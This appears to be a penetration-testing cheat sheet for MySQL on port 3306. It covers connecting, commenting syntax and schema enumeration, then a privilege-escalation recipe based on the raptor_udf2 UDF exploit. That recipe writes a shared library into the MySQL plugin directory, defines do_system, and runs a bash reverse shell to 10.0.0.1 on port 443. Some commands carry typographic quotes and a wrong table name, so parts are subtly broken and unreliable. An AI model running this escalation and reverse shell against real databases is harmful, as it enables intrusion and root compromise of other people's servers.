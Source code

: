 ## TCP 3306 mysql

### Connecting to Mysql  
```mysql -u user --password db_name```

### MySQL Commands
```
# Get the db version information
SELECT @@VERSION; 

# Comment (Note the space)
-- comment 
or
#comment
or
/*comment*/

# Enumerating db contents
# Listing the tables
SELECT * FROM information_schema.tables
or
SELECT TABLE_NAME FROM information_schema.tables

# Listing columns
SELECT * FROM information_schema_columns WHERE table_name = 'TABLE_NAME'
or
SELECT column_name FROM information_schema_columns WHERE table_name = 'TABLE_NAME'
```

### Privilege Escalation

Mysql 4.x & 5.0 (requires valid creds) - [dynamic library for do_system() MySQL UDF-raptor_udf2.c](https://www.exploit-db.com/exploits/1518)
```mysql> create table foo(line blob);
mysql> insert into foo values(load_file(‘/tmp/exploit.so’));
mysql> select * from foo into dumpfile ‘/usr/lib/mysql/plugin/exploit.so’;
mysql> create function do_system returns integer soname ‘exploit.so’;
mysql> select do_system(‘bash -i >& /dev/tcp/10.0.0.1/443 0>&1’);
```
REF: [mysql system to root](https://recipeforroot.com/mysql-to-system-root/)
